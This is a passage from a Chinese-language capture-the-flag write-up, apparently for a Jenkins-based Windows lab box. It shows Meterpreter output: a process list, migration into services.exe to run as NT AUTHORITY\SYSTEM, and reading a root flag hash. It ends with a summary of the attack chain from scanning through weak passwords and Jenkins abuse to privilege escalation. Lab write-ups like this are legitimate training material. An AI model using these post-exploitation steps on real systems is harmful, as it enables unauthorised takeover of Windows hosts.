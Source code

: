 成功拿到system权限。

虽然我们此时拿到了system的权限，但是此时并不是system用户。此时我们的进程是shell.exe进程，它的用户是bruce，我们只是有了一个system权限的token。那么下一步，我们可以考虑把权限从当前的shell.exe进程迁移到进程用户是administrator的进程上去，这样我们就有了进程用户administrator的权限。

常用的一个进程是service.exe，进程用户是system：

```shell
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 396   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\smss.exe
... ...
 608   564   winlogon.exe          x64   1        NT AUTHORITY\SYSTEM           C:\Windows\System32\winlogon.exe
 668   580   services.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\services.exe		--> 进程的所有者是system
 676   580   lsass.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\lsass.exe
 ... ...
  2280  1528  shell.exe             x86   0        alfred\bruce                  C:\Program Files (x86)\Jenkins\workspace\shell\shell.exe  --> 进程的所有者是bruce
 ... ...
 
```

直接使用`migrate`命令进行迁移即可：

```shell
meterpreter > migrate 668
[*] Migrating from 2280 to 668...
[*] Migration completed successfully.
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

读取flag：

```shell
C:\Windows\System32\config>type root.txt
type root.txt
dff0f748678f280250f25a45b8046b4a
```

## 总结

整体来说常规思路，目的就是熟悉jenkins这个软件，至于后续的提权什么的，属于常规思路。

扫 -> 弱口令 -> 功能利用 -> 提权
